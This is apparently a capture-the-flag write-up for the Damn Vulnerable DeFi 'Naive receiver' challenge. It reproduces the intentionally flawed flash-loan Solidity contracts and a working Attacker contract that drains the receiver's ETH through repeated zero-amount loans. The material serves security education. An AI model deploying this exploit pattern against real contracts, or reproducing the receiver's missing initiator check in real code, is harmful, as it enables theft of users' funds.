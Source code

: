 # Naive receiver

FlashLoanReceiver.sol

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "solady/src/utils/SafeTransferLib.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";

/**
 * @title FlashLoanReceiver
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract FlashLoanReceiver is IERC3156FlashBorrower {

    address private pool;
    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    error UnsupportedCurrency();

    constructor(address _pool) {
        pool = _pool;
    }

    function onFlashLoan(
        address,
        address token,
        uint256 amount,
        uint256 fee,
        bytes calldata
    ) external returns (bytes32) {
        assembly { // gas savings
            if iszero(eq(sload(pool.slot), caller())) {
                mstore(0x00, 0x48f5c3ed)
                revert(0x1c, 0x04)
            }
        }
        
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 amountToBeRepaid;
        unchecked {
            amountToBeRepaid = amount + fee;
        }

        _executeActionDuringFlashLoan();

        // Return funds to pool
        SafeTransferLib.safeTransferETH(pool, amountToBeRepaid);

        return keccak256("ERC3156FlashBorrower.onFlashLoan");
    }

    // Internal function where the funds received would be used
    function _executeActionDuringFlashLoan() internal { }

    // Allow deposits of ETH
    receive() external payable {}
}
```

NaiveReceiverLenderPool.sol

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashLender.sol";
import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "solady/src/utils/SafeTransferLib.sol";
import "./FlashLoanReceiver.sol";

/**
 * @title NaiveReceiverLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract NaiveReceiverLenderPool is ReentrancyGuard, IERC3156FlashLender {

    address public constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;
    uint256 private constant FIXED_FEE = 1 ether; // not the cheapest flash loan
    bytes32 private constant CALLBACK_SUCCESS = keccak256("ERC3156FlashBorrower.onFlashLoan");

    error RepayFailed();
    error UnsupportedCurrency();
    error CallbackFailed();

    function maxFlashLoan(address token) external view returns (uint256) {
        if (token == ETH) {
            return address(this).balance;
        }
        return 0;
    }

    function flashFee(address token, uint256) external pure returns (uint256) {
        if (token != ETH)
            revert UnsupportedCurrency();
        return FIXED_FEE;
    }

    function flashLoan(
        IERC3156FlashBorrower receiver,
        address token,
        uint256 amount,
        bytes calldata data
    ) external returns (bool) {
        if (token != ETH)
            revert UnsupportedCurrency();
        
        uint256 balanceBefore = address(this).balance;

        // Transfer ETH and handle control to receiver
        SafeTransferLib.safeTransferETH(address(receiver), amount);
        if(receiver.onFlashLoan(
            msg.sender,
            ETH,
            amount,
            FIXED_FEE,
            data
        ) != CALLBACK_SUCCESS) {
            revert CallbackFailed();
        }

        if (address(this).balance < balanceBefore + FIXED_FEE)
            revert RepayFailed();

        return true;
    }

    // Allow deposits of ETH
    receive() external payable {}
}
```

## Goal

Take all ETH out of the user’s (FlashLoanReceiver) contract in a single transaction.

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

The vulnerable part of the code is located in the NaiveReceiverLenderPool contract, inside the flashLoan() function.

Instead of relying on the balance of ether (address(this).balance) inside the NaiveReceiverLenderPool contract, we rely on an arbitrary amount of ETH, that can be set on function call, as a balance to be transferred to the borrower contract (FlashLoanReceiver).

This way we can call the flashLoan() function with 0 as amount, and after calculating the fee and after the loan has been settled, this will leave the borrower with 1 eth less. Repeating this operation for 10 times will leave the borrower with 0 ether.

In order to do this in one transaction we can create Attacker contract, and call the flashLoan() function from NaiveReceiverLenderPool in a for loop 10 times.

To exploit the contract we need to:

1. create Attacker contract, and create instances from the NaiveReceiverLenderPool and FlashLoanReceiver contracts inside the Attacker contract
2. in the constructor of the Attacker contract, in a for loop, call the flashLoan() function from NaiveReceiverLenderPool contract, set FlashLoanReceiver as borrower and set amount to be 0.

## Attacker contract code

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/interfaces/IERC3156FlashBorrower.sol";
import "./NaiveReceiverLenderPool.sol";
import "./FlashLoanReceiver.sol";

contract Attacker {

    address private constant ETH = 0xEeeeeEeeeEeEeeEeEeEeeEEEeeeeEeeeeeeeEEeE;

    NaiveReceiverLenderPool private immutable pool;
    FlashLoanReceiver private immutable vulnerableReceiver;

    constructor(NaiveReceiverLenderPool _pool, FlashLoanReceiver _vulnerableReceiver) {
        pool = NaiveReceiverLenderPool(_pool);
        vulnerableReceiver = FlashLoanReceiver(_vulnerableReceiver);

        for(uint256 i = 0; i < 10; i++) {
            pool.flashLoan(
                IERC3156FlashBorrower(vulnerableReceiver),
                ETH,
                0,
                ""
            );
        }
    }

    receive() external payable {}
}
```